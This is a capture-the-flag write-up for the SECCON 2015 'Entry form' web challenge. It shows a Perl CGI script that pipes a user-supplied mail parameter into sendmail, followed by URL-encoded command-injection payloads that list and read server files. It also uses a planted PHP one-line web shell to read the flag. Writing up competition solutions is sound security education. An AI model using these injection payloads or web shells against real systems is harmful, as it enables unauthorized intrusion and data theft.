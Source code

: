 ## Challenge

Find the flag at http://entryform.pwn.seccon.jp/register.cgi

## Solution

Navigate to the root path of the url http://entryform.pwn.seccon.jp/ to see:

![](entryform1.png)

Source of the CGI script available on: http://entryform.pwn.seccon.jp/register.cgi_bak

```perl
#!/usr/bin/perl
# by KeigoYAMAZAKI, 2015.11.02-

use CGI;
my $q = new CGI;

print<<'EOM';
Content-Type: text/html; charset=utf-8

...

EOM

if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);

  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);

  print "<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>";
  exit;
}

print <<'EOM';
```

From here we can see that we must use code injection in the mail parameter. First problem, the interactive sendmail (-bm) won't allow us to see output of our code injection. To avoid it, just inject another parameter (in my case -bp) as found in the sendmail manual `man sendmail`. So -bp is another parameter that will exit sendmail with an error.

The second problem is that we don't have permission to cat the log file using the CGI script, so we'll explore a little.

Payload:

`/register.cgi?name=notempty&mail='%20-bp|<command here>%20%23`

In this case we want to see the files so we use `ls`:

`/register.cgi?name=notempty&mail='%20-bp|ls%20%23`

![](entryform2.png)

We can see that there is a hidden folder called `SECRETS`, so let's look inside:

`/register.cgi?name=notempty&mail=%27%20-bp|ls%20SECRETS%20%23`

![](entryform3.png)

Another interesting file, let's view the contents:

`/register.cgi?name=notempty&mail=%27%20-bp|cat%20SECRETS%2fbackdoor123.php%20%23`

We view the sourcecode of the page and we then see:

```php
<pre><?php system($_GET['cmd']); ?></pre>
```

Finally, `cat` the flag:

`/SECRETS/backdoor123.php?cmd=cat%20../log`

**SECCON{Glory_will_shine_on_you.}**

## Notes

Using `ls -la` is a better option as we see:

```
dr-xr-xr-x 3 cgi    cgi  4.0K Dec  1 22:29 .
drwxr-xr-x 4 root   root 4.0K Dec  1 22:57 ..
-r--r--r-- 1 root   root  221 Dec  5 15:18 .htaccess
dr-xr-xr-x 2 root   root 4.0K Dec  1 21:52 SECRETS
-r---w---- 1 apache cgi  2.2M Dec  6 02:11 log
-r--r--r-- 1 root   root 1.2K May 15  2015 logo.png
-r-xr-xr-x 1 cgi    cgi  1.6K Dec  5 20:32 register.cgi
-r--r--r-- 1 root   root 1.6K Dec  1 22:25 register.cgi_bak
```

Using ID we see:
```uid=1001(cgi) gid=1001(cgi) groups=1001(cgi),1003(alien)```

But the ID of backdoor123.php is:
```uid=48(apache) gid=48(apache) groups=48(apache),1003(alien)```

## Solved by
r00t
